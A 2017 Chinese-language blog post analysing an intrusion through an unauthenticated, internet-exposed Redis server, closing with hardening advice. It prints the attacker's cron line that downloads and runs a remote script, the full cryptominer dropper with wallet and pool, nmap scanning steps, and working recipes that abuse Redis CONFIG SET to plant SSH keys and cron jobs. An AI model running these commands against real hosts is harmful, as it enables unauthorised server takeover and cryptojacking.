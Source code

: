 ```yaml
---
layout:     post
title:      "Redis安全问题分析"
date:       2017-03-03 16:48:00 +0800
category:   "redis"
tags:       ["security", "redis"]
excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
---
```


## redis被侵入

最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：

````bash
\n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
````

### 检查1:计划任务

看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。

`crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。

### 检查2:脚本内容

计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：

````bash
#!/bin/bash
# 查看系统中是否运行minerd这个挖矿软件
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
# 找到minerd进程的pid
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
# 统计指向指定比特币账户的minerd进程数量
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN"|wc -l`
# 杀掉竞争对手AnXqV挖矿软件
ps auxf|grep -v grep|grep AnXqV |awk '{print $2}'|xargs kill -9

# 如果系统中运行有minerd
if [ $Jin -eq  1 ];then
    # 如果minerd不是指向自己账户，杀掉minerd进程，并且将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
    if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt
        if [ ! -f minerd ];then
            curl -L http://sx.doiton.tk/minerd -o minerd \
            &&   chmod +x minerd
        fi
        /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
    fi
fi

# 如果系统中没运行minerd，直接将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
if  [ $Jin -ne  1 ];then
    kill -9 $Pid
    cd /opt
    if [ ! -f minerd ];then
        curl -L http://sx.doiton.tk/minerd -o minerd \
        &&   chmod +x minerd
    fi
    /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
 fi
````

分析完脚本之后，通过`ps aux | grep -v grep | grep [name]`查看下系统中是否运行有`minerd`或者`AnXqV`。很庆幸，系统中没有运行这两种挖矿软件，估计上一步`计划任务`没添加成功。

## 还原过程

侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。

> redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)

当然，使用者将redis端口绑定在默认的`0.0.0.0:6379`，以具有某权限的用户运行，并且没有开启鉴权，也没采取相关防火墙策略，将不需认证的redis服务器暴露在公网，才是这类事件的罪魁祸首。

因为redis自身提供`config`命令，该命令本来是用来动态调整redis配置的，但是既然能写文件(也能修改配置文件地址)，那么自然可以用来进行一些其他的操作。

### 扫描端口

公网上有很多用户运行redis，其实都监听默认端口6379，并且没有开启auth鉴权。我们可以很轻松的扫描到这样的用户，然后实施入侵(并不建议这么做，已经是犯罪)：

````bash
# 安装nmap扫描器
$ sudo yum install nmap (红帽系或者SUSE) 或者 sudo apt-get install nmap (debian系)

# 扫描网络中活动主机(网段可以自己修改)
$ nmap -sn 192.168.2.0/24

# 扫描特定主机的开放端口(地址、地址段自己修改)
$ nmap 192.168.2.0,100-200

# 找到主机上监听端口的服务
$ nmap -sV 192.168.2.22

# 查看主机上端口的详细信息
$ nmap -sC 192.168.2.22 -p 6379

# 特定漏洞脚本利用(这个不是重点)
$ nmap --script=[path] 192.168.2.22 -p 6379
````

扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。

### 利用1：添加ssh公钥

在主机redis中添加一个`crackit`的键值对

````bash
# 生成rsa密钥对(公钥和私钥)
$ ssh-keygen -t rsa
# 将公钥写入文件，私钥保留
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
# 将公钥写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

通过`config`命令，修改配置路径，将公钥写入主机`/root/.ssh/authorized_keys`。

````bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/root/.ssh"
    > config set dbfilename "authorized_keys"
    > save
````

公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。

### 利用2：添加计划任务

在主机redis中添加一个`crackit`的键值对

````bash
# 将计划任务命令写入文件
$ (echo -e "\n\n*/5 * * * * /usr/bin/curl -fsSL http://192.168.2.1/test.sh | sh\n\n") > test.txt
# 将计划任务内容写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

添加任务计划操作，其实和添加公钥差不多，只是将目录修改成`/var/spool/cron/`，系统中便自动添加了一个计划任务。

````bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/var/spool/cron/"
    > config set dbfilename "root"
    > save
````

添加计划任务成功以后，系统便会定时运行我们写好的脚本，具体能做什么取决于你的脚本内容。

## 影响和应对

影响：

- redis作为数据库，如果被入侵，导致数据泄露或者数据丢失，会给用户带来很大损失。
- 入侵者通过redis执行lua脚本，或者添加计划任务，或者添加ssh公钥，都可能使机器沦为肉鸡，被人使用。

应对措施：

1. 配置`/etc/redis.config`文件，修改bind选项，绑定特定IP地址(内网地址或者回环地址)可以限制部分IP访问。
2. 配置`/etc/redis.config`文件，修改port选项，修改默认监听6379端口，避免被人轻易扫描到。
3. 配置`/etc/redis.config`文件，修改requirepass选项，添加redis服务器鉴权，增强安全性。
4. 配置`/etc/redis.config`文件，修改rename-command选项，将危险命令重命名。
5. 创建单独的nologin系统用户，用来运行redis，避免被入侵后提权(执行代码或者命令)，千万不能以root运行redis服务。
6. 对主机添加ACL或者防火墙进行网络访问控制，云主机可以设置安全组。

最近除了redis被劫持，mongodb、mysql等数据被勒索的新闻也能经常听到，所以提高自身安全意识才是最根本的。
